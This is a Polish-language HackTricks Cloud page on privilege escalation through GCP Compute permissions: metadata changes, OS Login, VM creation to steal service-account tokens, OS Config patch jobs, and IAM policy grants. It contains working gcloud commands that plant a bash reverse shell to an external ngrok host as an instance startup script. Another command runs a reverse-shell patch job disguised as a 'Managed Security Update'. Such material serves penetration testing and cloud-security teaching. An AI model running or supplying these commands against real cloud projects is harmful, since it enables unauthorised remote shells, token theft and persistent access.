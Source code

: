 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieci) w GCP, sprawdź:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takich jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` dla SA przypisanego do instancji**, nawet jeśli SA jest już przypisany!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Dzięki temu uprawnieniu możesz **modyfikować** informacje o **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika** lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. W związku z tym będziesz mógł połączyć się przez SSH z dowolną instancją VM i ukraść GCP Service Account, z którym działa instancja.\
Ograniczenia:

* Zauważ, że GCP Service Accounts działające w instancjach VM domyślnie mają **bardzo ograniczony zakres**
* Będziesz musiał **móc skontaktować się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat tego, jak wykorzystać to uprawnienie, sprawdź:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Możesz również przeprowadzić ten atak, dodając nowy skrypt uruchamiający i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **te same uprawnienia co poprzednie uprawnienie**, ale dla konkretnych instancji zamiast całego projektu. **Te same exploity i ograniczenia jak w poprzedniej sekcji mają zastosowanie**.

### `compute.instances.setIamPolicy`

Ten rodzaj uprawnienia pozwoli ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia, nadużywając ich.

### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tym uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. **Nie będziesz miał uprawnień roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tym uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. Będziesz miał **uprawnienia roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie maszyny wirtualnej z przypisanym kontem usługi i kradzież tokena** konta usługi uzyskując dostęp do metadanych, aby eskalować uprawnienia do niego.

Skrypt exploitu dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie łatania lub wdrożenie**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). To umożliwi ci poruszanie się w poziomie w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w projekcie.

Zauważ, że w tej chwili **nie potrzebujesz uprawnienia `actAs`** dla SA przypisanego do instancji.

Jeśli chcesz ręcznie wykorzystać to, będziesz musiał utworzyć albo [**zadanie łatania**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **lub** [**wdrożenie**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Aby uruchomić zadanie łatania: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Aby wdrożyć wdrożenie poprawki:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Narzędzie [patchy](https://github.com/rek7/patchy) mogło być używane w przeszłości do wykorzystania tej błędnej konfiguracji (ale teraz nie działa).

**Atakujący mógłby również nadużyć tego dla utrzymania dostępu.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Ominięcie Zakresów Dostępu

Podążając za tym linkiem znajdziesz kilka [**pomysłów na ominięcie zakresów dostępu**](../).

### Lokalna Eskalacja Uprawnień w instancji GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
